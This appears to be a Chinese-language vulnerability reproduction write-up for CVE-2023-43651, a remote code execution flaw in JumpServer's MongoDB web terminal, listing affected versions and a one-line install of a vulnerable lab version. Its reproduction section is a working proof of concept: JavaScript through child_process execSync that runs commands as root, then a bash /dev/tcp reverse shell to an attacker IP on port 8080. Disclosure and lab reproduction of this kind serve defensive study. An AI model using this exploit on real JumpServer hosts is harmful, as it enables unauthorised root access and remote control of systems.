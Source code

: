 # CVE-2023-43651

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jump Server MongoDB远程代码执行漏洞



## 0x01 漏洞描述

经过身份验证的用户可以利用MongoDB会话中的漏洞执行任意命令，成功利用该漏洞的攻击者可获取目标系统上的root权限，最终可实现远程代码执行。

## 0x02 影响范围

在漏洞版本且启用了koko组件。

```json
2.24 <= jumpserverv 2.x <= 2.28.20
jumpserverv 3.x <= 3.6.4
```

## 0x03 环境部署

```bash
# 本次漏洞复现使用jump server v3.1.0环境  下面是一键安装脚本
curl -sSL https://github.com/jumpserver/jumpserver/releases/download/v3.1.0/quick_start.sh | sh
```

# 0x04 漏洞复现

在Web Terminal模块连接数据库，即可在命令行中执行js代码

```bash
test> const { execSync } = require("child_process")
test> console.log(execSync("id; hostname;").toString())
uid=0(root) gid=0(root) groups=0(root)
97eef96eb646
```

![Untitled](image/Untitled.png)

**反弹shell**

攻击者本地使用nc监听8080端口  等待受控机的连接

```bash
test> console.log(execSync("bash -i >& /dev/tcp/10.0.100.206/8080 0>&1").toString())
```

回车后 成功拿到shell

![Untitled](image/Untitled%201.png)